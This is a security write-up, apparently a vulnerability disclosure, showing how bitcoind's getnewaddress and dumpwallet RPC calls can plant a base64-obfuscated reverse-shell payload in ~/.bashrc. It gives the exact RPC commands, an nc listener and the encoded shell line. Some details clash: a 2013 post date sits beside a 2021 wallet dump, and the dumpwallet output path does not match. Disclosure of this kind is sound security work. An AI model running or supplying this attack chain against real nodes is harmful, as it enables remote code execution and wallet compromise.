 ```yaml
---
layout: post
title:  "Pwning Bitcoind RPC To RCE"
date:   2013-11-10 10:18:00
categories: Security
---
```


Exposing the bitcoind rpc has always been a bad idea, but let's make it worse! We discovered that the usage of bitcoind's `getnewaddress` and `dumpwallet` can be abused to gain remote code execution, essentially elevating our limited access from `bitcoind` to a full complete "SSH" shell allowing us to execute arbitrary commands. 

## Introduction
This potential security vulnerability has been reported to the Bitcoin Core security team but there is insufficient interest in patching this, but the least we should do is raise some awareness that the bitcoind rpc exposes dangerous functions.

The impact is severely limited because:
* attackers require authenticated access to `bitcoind´
* `bitcoind` only binds to localhost by default
* triggering code execution is not straightforward

This technique can mainly be used to perform lateral movements within an already compromised environment.

## Nearly arbitrary write access through dumpwallet
We can leverage the `dumpwallet` command to write a file to an absolute path.
This can be leveraged to write files into sensitive locations such as `~/.bashrc`
Other locations such as `~/.bash_profile` or `~/.bash-login` are also interesting, these have a higher chance of not having a file already but will only trigger when a new ssh login happens.

We can only write non-executable files, but this isn't really a constraint because the interesting locations mentioned above do not require the executable property. The shell will read the contents of the file into a variable and execute it.

Bash is an interesting target because it does not stop execution if a command failed. This is instrumental to skip over the "garbage" lines because we don't actually control the format of the file created by `dumpwallet`.

The label of an address created through `getnewaddress` serves as our entrypoint into our dumpwallet file, we can stuff bash commands in this field.

Labels barely do any filtering for useful characters:
```
"label": "~!@#$%^&*()-_=+[]\\{}|;':\",./<>?",
```

The final layout of the dumpfile looks like this (redacted a bit):
```
# Wallet dump created by Bitcoin v0.20.1
# * Created on 2021-01-05T18:59:14Z
# * Best block at time of backup was 0 (000000000019d6689c085ae165831e934ff763ae46a2a6c172b3f1b60a8ce26f),
#   mined on 2009-01-03T18:15:05Z

# extended private masterkey: REDACTED

L5REoWnddZLx315Bmh2fhHujTMQB5DBFREaia9osDfUaoiMtk6RA 2021-01-05T18:49:04Z reserve=1 # addr=bc1qqq5dsec72dv0g6nyxld0ykxtzau7pwau99dz5v hdkeypath=m/0'/0'/198'
L3p1RYmgarF1Ps6tdmLFon6iGKQMAZhLMH4HoV1eqvPkAF7Eqyxy 2021-01-05T18:49:04Z reserve=1 # addr=bc1q4e4vq855ljth9f3ykqvunr6xnc7aaaav6wpmgl hdkeypath=m/0'/0'/638'
KzHgJs6DSAnxab5tRD7jpDLoNUgtSyxPHbJS1ZW5dhJa5r9xG9Px 2021-01-05T18:49:04Z label=;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash; # addr=bc1q4ely2lu9du0mspersm9yvn2ttruv5z54aesnjv hdkeypath=m/0'/0'/2'
L1cE5swB5R8Bf9A2tN4yQH17fRDTm96YPdhw3YSdbdgDpUb7v8kA 2021-01-05T18:49:04Z reserve=1 # addr=bc1q469p9czc9kr74zelmx00pptfsqkuut9uedk4mj hdkeypath=m/0'/0'/405'

```

## Payload

The final payload that we'll use in this PoC looks like this:
```
;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;
```

### Stage 1
```
;(base64${IFS}-d${IFS}<<<${BASE64_ENCODED_STAGE_2_PAYLOAD})|bash;
```
The first stage of the payload decodes the stage 2 payload and executes it.
Mostly a convenience feature because labels will encoded the space character ` ` to `%20`.
Luckily we can use `${IFS}` as a substitution, which is the variable that bash uses for whitespace detection.

Our actual payload is base64 encoded, that way we don't need to deal with the space issue in the actual payload.

### Stage 2

Insecure shell to ip address 127.0.0.1 on port 4242
```
$ sh -i >& /dev/udp/127.0.0.1/4242 0>&1
```

Encoding it to base64
```
$ echo "sh -i >& /dev/udp/127.0.0.1/4242 0>&1" | base64
c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQo=
```

The attacker will be listening there, we can use the following command to do that:
```
$ nc -u -lvp 4242
```

## Attack

### Extract path of the user

```
getrpcinfo
{
  "active_commands": [
    {
      "method": "getrpcinfo",
      "duration": 20
    }
  ],
  "logpath": "/home/user/.bitcoin/debug.log"
}

```
Default log path can reveal this.
But this may not be as easy when a non default datadirectory is used.

### Create an address with our label as payload
```
getnewaddress ";(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;"
bc1qccznzj3k7y79jwqyttn8e2lhlwlyznrxqa65yk
```

### Dumping the wallet a file
Let's assume that `.bashrc` doesn't exist, for the sake of having an example that is easy to reproduce.
There are a few better locations as mentioned above that will also work quite well.
```
dumpwallet /home/user/.bashrc
{
  "filename": "/home/user/projects/BitcoindPwner/bitcoin-0.20.1/bin/test"
}
```

### Now we wait
A trap has been laid out, we now only require a bash shell to be spawned on the server which loads our malicious `.bashrc` which in turn trigger our malicious payload.
